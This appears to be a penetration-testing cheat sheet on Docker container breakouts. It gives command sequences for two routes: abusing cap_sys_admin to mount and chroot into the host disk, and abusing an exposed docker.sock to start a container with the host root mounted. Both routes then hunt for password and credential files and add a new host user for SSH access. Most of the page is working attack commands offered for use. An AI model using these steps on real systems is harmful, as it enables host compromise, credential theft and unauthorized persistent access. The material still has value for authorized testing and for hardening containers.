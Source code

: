 # Container Breakouts

## cap\_sys\_admin Capability

Check if there is cap\_sys\_admin privileges in docker container.&#x20;

```
capsh --print
```

if you see in the result `cap_sys_admin` then you can continue.

* Mount the root directory of host to container and look for the credentials or config files.&#x20;

```
fdisk -l 
mount /dev/sda /mnt
ls -l /mnt/

chroot /mnt/ bash
find / -name password 2>/dev/null
# and check credentials in root file system.
```

* Scan host machine and look for open ports
  * if there is open ssh port

```
chroot /mnt/ adduser turm
# give the password and it will add user to host system. 
# Then login to ssh port with that user. 
```

## docker.sock&#x20;

In the docker-container, if there is a docker.sock have a symlink to /run/docker.sock then there is possibility to do break out.&#x20;

```
find / -name docker.sock 2>/dev/null

#if you see in the result /run/docker.sock go for that way
```

Now we will create a container inside the docker container and connect it to host



```
docker images
# or pull docker images 
docker run -it -v /:/host/ ubuntu:22.04 bash

# That will give us a shell

cd /host/
chroot ./ bash

#after that part add a user and connect with ssh or find
#find credentials. 
```
